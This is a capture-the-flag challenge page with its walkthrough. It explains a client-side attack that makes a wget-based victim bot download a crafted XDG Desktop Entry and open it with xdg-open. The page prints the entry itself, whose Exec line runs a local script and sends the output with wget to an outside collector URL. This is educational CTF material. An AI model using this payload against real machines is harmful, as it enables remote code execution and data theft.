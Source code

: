 # Description

http://chal-s1.hkcert21.pwnable.hk:28098/
http://chal-s2.hkcert21.pwnable.hk:28098/

What if someone uses wget as the browser?
Flag: find the flag in the root directory with name `/proof*.sh`

**NOTE:** Both links serve the same challenge. You may choose any one of them.

**UPDATE (12 Nov 21:52)**: Updated link to challenge server. 

---

* The objective of this kind of challenges is to send a malicious webpage / URI to steal sensitive information or even execute arbitrary code in the victim's machine. Unlike XSS where the impact is limited to the victim's account in a particular website, a browser / desktop app exploit, or client-side attack in general, may compromise the entire victim's machine.

* In this challenge, we are allowed to send the victim an arbitrary URI and they will open it with `xdg-open` (just like clicking on links in a browser). To trick a victim to execute arbitrary code, we can craft an XDG Desktop Entry, which could specify what command to be executed.

* But before we can trick the victim to open the Desktop Entry, we need to write the Desktop Entry to somewhere in the local filesystem. This could be done since the victim is using `wget` as the browser, and the current working directory is writable.

* For example, you can upload a Desktop Entry file named `example.desktop` to your website (e.g. Github page), and then ask the victim bot to download it
```
[Desktop Entry]
Exec=sh -c "wget https://xxxxxxxxxxxxxxx.m.pipedream.net/?`/proof*.sh`"
Type=Application
```
* If this Desktop Entry is opened, then it will execute the command after `Exec=`, which will first execute `/proof*.sh` and obtain the output, and execute `wget https://xxxxxxxxxxxxxxx.m.pipedream.net/?(the output from executing /proof*.sh)`, which allows you to capture the flag

* Once the `example.desktop` file is written, you can ask the victim bot to open `file:///tmp/example.desktop` so that they will execute the code you planted before
* But make sure you use a unique filename for the Desktop Entry file since the challenge platform is common to every participants

* Too easy for you? Now you can try babyURIi...

### Attachments

- [infantbrowser_6939c231042fd155a512940cd0982f76.zip](./infantbrowser_6939c231042fd155a512940cd0982f76.zip)

# Solves
| ID | Name | Solve at |
| --- | ---- | -------- |
| 136 | T0047 - HKUST | 2021-11-12T10:17:31.749Z |
| 156 | O0027 - UND3r 20 D53 H473r5 4ND r374K3r | 2021-11-12T10:22:05.287Z |
| 158 | T0003 - HKUST | 2021-11-12T10:22:50.432Z |
| 233 | T0042 - HKUST | 2021-11-12T10:51:23.261Z |
| 264 | O0056 - AVADA KEDAVRA | 2021-11-12T11:06:45.761Z |
| 272 | 天枢Dubhe | 2021-11-12T11:12:30.543Z |
| 353 | O0083 - c0rrupted flags | 2021-11-12T12:16:33.231Z |
| 373 | O0084 - Never Gonna Let You Dump | 2021-11-12T12:33:50.771Z |